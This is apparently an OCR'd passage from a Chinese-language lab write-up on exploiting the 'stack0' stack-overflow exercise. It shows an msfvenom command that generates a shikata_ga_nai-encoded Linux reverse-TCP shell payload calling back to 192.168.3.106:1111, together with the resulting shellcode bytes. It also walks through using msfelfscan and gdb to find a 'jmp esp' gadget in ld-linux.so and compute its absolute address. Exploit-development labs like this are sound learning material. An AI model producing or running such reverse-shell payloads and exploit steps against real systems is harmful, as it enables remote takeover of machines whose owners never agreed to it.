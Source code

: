 ```
2004 ~  » msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.3.106 LPORT=1111 -e x86/shikata_ga_nai -b "\x00" --platform linux -f py 
-------------------------output:-----------------------
No Arch selected, selecting Arch: x86_64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"
-------------------------end--------------------------

```

其中jmp esp的地址由msfelfscan找出，win下为msfpescan

`msfelfscan -j esp /root/桌面/stack0`

结果发现由于stack0的代码比较简单，里面没有jmp esp的指令，于是通过info shared来找出stack0中调用系统函数时用到的so文件，然后从so文件里找出jmp esp的地址,如下：

```
info shared
------------output:----------------
From        To          Syms Read   Shared Object Library
0xf7fdd860  0xf7ff50fc  Yes (*)     /lib/ld-linux.so.2     #0xf7fdd860为该动态链接库的内存加载基址
                        No          linux-gate.so.1
0xf7e14420  0xf7f44c0e  Yes (*)     /lib/i386-linux-gnu/i686/cmov/libc.so.6
(*): Shared library is missing debugging information.
--------------end------------------

```

然后执行`msfelfscan -j esp /lib/ld-linux.so.2`

```
----------output:-------------
[/lib/ld-linux.so.2]
0x0001813b jmp esp
0x0001bfe7 jmp esp
0x0001c24f jmp esp
------------end---------------

```

找到一个jmp esp地址为：0x0001813b,但是这只是偏移量

真正的地址为：0xf7fdd860+0x0001813b=0xf7ff599b
